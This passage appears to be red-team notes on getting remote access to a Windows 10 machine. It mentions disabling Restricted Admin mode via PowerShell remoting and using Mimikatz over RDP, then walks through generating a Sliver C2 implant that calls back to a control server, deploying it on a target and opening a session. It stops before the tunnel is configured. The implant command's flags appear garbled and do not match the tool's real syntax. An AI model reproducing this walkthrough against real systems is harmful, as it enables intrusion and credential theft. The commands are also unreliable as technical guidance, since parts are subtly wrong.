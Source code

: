   - For instance, you might use PowerShell remoting to disable Restricted Admin mode, then use Mimikatz with RDP to establish a GUI session.

### **Security Considerations:**

- **Mimikatz** is a powerful tool often used for penetration testing and red teaming, but it’s also used by attackers for malicious purposes. Ensure you’re using it in a controlled, legal environment, such as during an authorized penetration test.
  
- **Restricted Admin Mode** is designed to prevent credential theft by not passing credentials to the remote machine. Bypassing this with tools like Mimikatz should be done with an understanding of the security implications and in a controlled environment.


To configure a reverse tunnel with Sliver and gain RDP access to a Windows 10 client machine, you'll need to follow these general steps:

### **1. Setup and Deploy Sliver**
Sliver is a command-and-control (C2) framework used for red teaming and adversary simulation. You’ll first need to set up a Sliver server and deploy an implant on the target machine.

#### **1.1. Install Sliver on Your Server**
- Download and install Sliver on your control server (Linux or Windows).
- Start Sliver with the following command:

```bash
sliver-server
```

#### **1.2. Generate an Implant**
- Inside the Sliver console, generate an implant (payload) for the target Windows machine:

```shell
generate -o windows_implant.exe -f windows/amd64 -t reverse_tcp --mtls 192.168.1.100
```

- Replace `192.168.1.100` with the IP address of your control server.
- The `-o` flag specifies the output filename.
- The `-f` flag specifies the target architecture and OS.
- The `-t` flag specifies the communication method, here it's `reverse_tcp`.

#### **1.3. Deploy the Implant on the Target**
- Transfer the generated implant to the Windows 10 client machine.
- Execute the implant on the target to establish a reverse connection back to the Sliver C2 server.

### **2. Configure a Reverse Tunnel in Sliver**
Once the implant is running on the target machine, you can use Sliver to create a reverse tunnel that allows you to access services (like RDP) on the Windows 10 machine.

#### **2.1. Interact with the Implant**
- Once the implant connects back to your server, it will show up in the Sliver interface. Interact with it:

```shell
sessions
use <session_id>
```
